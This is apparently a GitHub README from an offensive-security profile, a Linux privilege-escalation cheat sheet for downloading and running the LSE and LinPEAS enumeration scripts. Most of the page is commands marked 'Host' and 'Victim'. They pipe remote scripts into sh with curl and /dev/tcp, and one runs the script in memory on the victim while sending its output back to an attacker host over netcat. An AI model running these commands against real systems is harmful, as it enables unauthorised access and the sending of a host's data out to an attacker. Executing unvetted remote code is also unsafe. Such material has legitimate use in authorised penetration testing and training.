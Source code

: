 > בס״ד
<div align="center">

<h2 align="center"><a href="https://github.com/Anlominus">⚜️ Aภl๏miuภuຮ ⚜️</a></h2>

<img align="center" width="100" src="https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png">

⫷ [**`HacKingPro`**](https://github.com/Anlominus/HacKingPro) ⫸
<br>
⫷ [**`TryHackMe`**](https://github.com/Anlominus/TryHackMe) | [**`KoTH`**](https://github.com/Anlominus/TryHackMe/tree/main/King%20of%20the%20Hill/KoTH) ⫸ 
<br>
⫷ [**`Privilege-Escalation`**](https://github.com/Anlominus/Privilege-Escalation)⫸ 
<br>
⫷ [**`ScanPro`**](https://github.com/Anlominus/ScanPro) | [**`Linfo`**](https://github.com/Anlominus/Linfo) | [**`Diablo`**](https://github.com/Anlominus/Diablo) ⫸ 
<br>
⫷ [**`Offensive-Security`**](https://github.com/Anlominus/Offensive-Security) | [**`PenTest`**](https://github.com/Anlominus/PenTest) ⫸
<br>
⫷ [**`Goals`**](https://github.com/Anlominus/Goals) | [**`Studies`**](https://github.com/Anlominus/Studies) | [**`HacKing`**](https://github.com/Anlominus/HacKing) | [**`AnyTeam`**](https://github.com/Anlominus/AnyTeam) ⫸
<br>

</div>
  
---
 
  
<div align="center">

# [`Privilege-Escalation`](https://github.com/Anlominus/Privilege-Escalation) ~> [`Linux-PrivEsc`](https://github.com/Anlominus/Linux-PrivEsc)
[**`Tools`**](https://github.com/Anlominus/Linux-PrivEsc/tree/main/GiTools#linux-privesc--gitools) | [**`Cheat Sheets`**](https://github.com/Anlominus/Linux-PrivEsc/tree/main/Cheat%20Sheets#linux-privesc--cheat-sheets) | [`Notes`](./Notes)  | [`Checklists`](./Checklists)
  
---

## Linux Enumeration 
  
### LSE
```shell
wget https://raw.githubusercontent.com/Anlominus/HacKingPro/main/Menu/14--Privilege%20Enumeration%20%26%20Escalation/lse.sh; chmod 777 lse.sh
```
### LinPEAS
```shell
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh; chmod 777 linpeas.sh
```  
> ![image](https://user-images.githubusercontent.com/51442719/173901910-757fa5d0-0d72-4d2e-9df5-da64a886bc28.png)
> **LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**
> ```bash
> # From github
> curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
> ```
</div>
  
> ```bash
> # Local network
> sudo python -m SimpleHTTPServer 80 #Host
> curl 10.10.10.10/linpeas.sh | sh #Victim
> 
> # Without curl
> sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
> cat < /dev/tcp/10.10.10.10/80 | sh #Victim
> 
> # Excute from memory and send output back to the host
> nc -lvnp 9002 | tee linpeas.out #Host
> curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
> ```

> ```bash
> # Output to file
> ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
> less -r /dev/shm/linpeas.txt #Read with colors
> ```

> ```bash
> # Use a linpeas binary
> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
> chmod +x linpeas_linux_amd64
> ./linpeas_linux_amd64
> ```

</div>

